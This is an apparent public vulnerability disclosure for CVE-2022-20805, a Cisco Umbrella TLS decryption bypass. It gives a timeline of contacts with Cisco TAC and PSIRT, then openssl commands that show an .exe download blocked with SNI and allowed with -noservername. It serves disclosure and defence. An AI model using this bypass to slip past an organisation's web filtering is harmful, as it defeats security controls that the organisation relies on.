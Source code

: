 While doing a troubleshooting we discovered a way to bypass Cisco Umbrella decryption, as it seems we reached the end on this we decided, 3 years after having reported the issue to Cisco, to release details publicly.

This vulnerability was confirmed by Cisco TAC the 21st of September 2021:
```
The current design is that when SNI is absent in the request we are forwarding request to the end web server without
doing MITM and not looking onto TLS version/ciphers, just the same way as if for example domain in question would be
bypassed from the decryption.
That's why TLS handshake can be done with TLS versions below TLS 1.2 because choice of it completely depends what
client and server will agree on.
We are loooking into possibility to change this behaviour and we have created internal feature request to determine
if we can implement decryption even if SNI extension is not present in Client Hello.
The behaviour when domain is bypassed from decryption will remain the same: TLS handshake will be done with the TLS
version/ciphers which client and server chosed.
When domain is not bypassed from decryption and is going through SWG engine we don't support anything below TLS1.2 and
obsolete ciphers, such requests will be dropped.
```

As no fix was provided in the following months, we contacted Cisco PSIRT the 8th of March 2022 to confirm that it was considered as a security vulnerability and ask for a corresponding security notice to be published.
After discussions CVE-2022-20805 was finally assigned and the following notice was published the 20th of April 2022: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-uswg-fdbps-xtTRKpp6

A workaround was mentionned in the notice while, from our point of view, it is not applicable in practice.

More than 2 years later, the 11th of September 2024, as still no fix was provided regarding CVE-2022-20805, we contacted Cisco PSIRT again and got at the end the below feedback:
```
Customers actually have the option to request decryption of all traffic.  However, it should be noted that due to the
product's intended design (i.e., TLS SNI must be present), as well as performance and operational impacts of enabling
this feature, this is offered as a Limited Availability (LA) by contacting umbrella-support@cisco.com.  There are
currently no plans to update the advisory as it is point in time information, however, PSIRT has coordinated with the
product team to ensure information on the related defect (CSCwb04953) is updated/maintained for customer awareness.
```

The current behavior is documented here: https://support.umbrella.com/hc/en-us/articles/4838256036756-How-Does-SWG-Handle-Traffic-Decryption-When-HTTPS-Decryption-is-Enabled

Finally, here're below how concretely Cisco Umbrella decryption can by bypassed by exploiting CVE-2022-20805:
1) When trying to download a file with .EXE extension through a standard browser we're blocked by the Umbrella policy as expected:

![alt text](CVE-2022-20805_Umbrella_EXE_blocked.PNG)

2) Using openssl we can see that Umbrella decryption applies and get the same result:
```
# openssl s_client -tls1_2 -connect raw.githubusercontent.com:443
<SNIP>
Certificate chain
0 s:C = US, ST = California, L = San Francisco, O = "Cisco Systems, Inc.", CN = raw.githubusercontent.com
   i:C = US, ST = California, L = San Francisco, O = "Cisco Systems, Inc.", CN = swg-nginx-proxy-https-334cdcf4178d.signginx.cdg1
1 s:C = US, ST = California, L = San Francisco, O = "Cisco Systems, Inc.", CN = swg-nginx-proxy-https-334cdcf4178d.signginx.cdg1
   i:O = Cisco, CN = Cisco Umbrella R1 CA
2 s:O = Cisco, CN = Cisco Umbrella R1 CA
   i:O = Cisco, CN = Cisco Umbrella Customers CA
3 s:O = Cisco, CN = Cisco Umbrella Customers CA
   i:DC = fr, DC = org-iserba, CN = Iserba-CA
<SNIP>
---
New, TLSv1.2, Cipher is ECDHE-RSA-AES256-GCM-SHA384
Server public key is 4096 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
SSL-Session:
<SNIP>
---
GET /hcjjy/lantern-binaries/master/false.exe HTTP/1.1
Host: raw.githubusercontent.com
 
HTTP/1.1 302 Moved Temporarily
Date: Mon, 25 Apr 2022 17:18:00 GMT
Content-Length: 0
Connection: keep-alive
Location: https://block.opendns.com/swg/?server=mps-6f0293c38d8d.sigenv1.cdg1&v=eyJhbGciOiAiSFM1MTIiLCAia2lkIjogIjE1NjM1NTk3OTYifQ.eyJidHlwZSI6ICIiLCAib3JnIjogNTMyMzA3NSwgIm9pZCI6IDU4NDkwODY0MSwgImJpZCI6IDEzNDUzNjMxLCAicHJmIjogMTU5NzUwNCwgInQiOiAiMTgwMDAwMDAwMDAwMDAwMDAwMDAyMUYwMDAwMDAwMDAwMDAwMDAwIiwgImJjIjogIiIsICJ1cmwiOiAiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2hjamp5L2xhbnRlcm4tYmluYXJpZXMvbWFzdGVyL2ZhbHNlLmV4ZSIsICJmdGMiOiAiZXhlIiwgImZuYW1lcyI6ICIiLCAiYnBpZCI6IDB9.5AgSH5OCftRcqVGqiRgR3lj1SJIdzJ8xqqSpLNl3ZIuMvGoep2NHpOV1Vdaj3ltz_sYnh0sHFUh5fG4el_sp3Q
Via: HTTP/1.1 m_proxy_cdg1
Via: HTTP/1.1 s_proxy_cdg1
```

3)	Still using openssl tool, we can set no SNI using the "-noservername" parameter, by doing that the Umbrella decryption doesn’t apply anymore, all the filtering achieved through decryption, like restricting some file extensions like in this example, is not anymore applied, any file can be downloaded:
```
# openssl s_client -tls1_2 -connect raw.githubusercontent.com:443 -noservername
CONNECTED(000001A4)
<SNIP>
Certificate chain
0 s:C = US, ST = California, L = San Francisco, O = "GitHub, Inc.", CN = *.github.io
   i:C = US, O = DigiCert Inc, CN = DigiCert TLS RSA SHA256 2020 CA1
1 s:C = US, O = DigiCert Inc, CN = DigiCert TLS RSA SHA256 2020 CA1
   i:C = US, O = DigiCert Inc, OU = www.digicert.com, CN = DigiCert Global Root CA
<SNIP>
---
New, TLSv1.2, Cipher is ECDHE-RSA-AES128-GCM-SHA256
Server public key is 2048 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
SSL-Session:
<SNIP>
---
GET /hcjjy/lantern-binaries/master/false.exe HTTP/1.1
Host: raw.githubusercontent.com
 
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 14557208
Cache-Control: max-age=300
Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline'; sandbox
Content-Type: application/octet-stream
ETag: "20382cbdc623c72d3167bd9a506a97bf86c8171db852b08e8534869a8de37384"
Strict-Transport-Security: max-age=31536000
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-XSS-Protection: 1; mode=block
X-GitHub-Request-Id: A8EC:EC79:2439E05:25E2BF6:6266D7B4
Accept-Ranges: bytes
Date: Mon, 25 Apr 2022 17:27:29 GMT
Via: 1.1 varnish
X-Served-By: cache-cdg20767-CDG
X-Cache: HIT
X-Cache-Hits: 1
X-Timer: S1650907649.112261,VS0,VE16
Vary: Authorization,Accept-Encoding,Origin
Access-Control-Allow-Origin: *
X-Fastly-Request-ID: cfc13722786eb95d4f34d03d9d4bf753f478a197
Expires: Mon, 25 Apr 2022 17:32:29 GMT
Source-Age: 37
 
MZÉ           ╕       @                                   ≡   ♫▼║♫ ┤  ═!╕L═!This program cannot be run in DOS mode.
$       SAr≡↨ ∟ú↨ ∟ú↨ ∟ú¬oèú∟ ∟ú▲Xëú ∟ú0µgú∟ ∟ú↨ ↔úó ∟ú▲XÿúD ∟ú▲Xƒú█ ∟ú▲Xê
```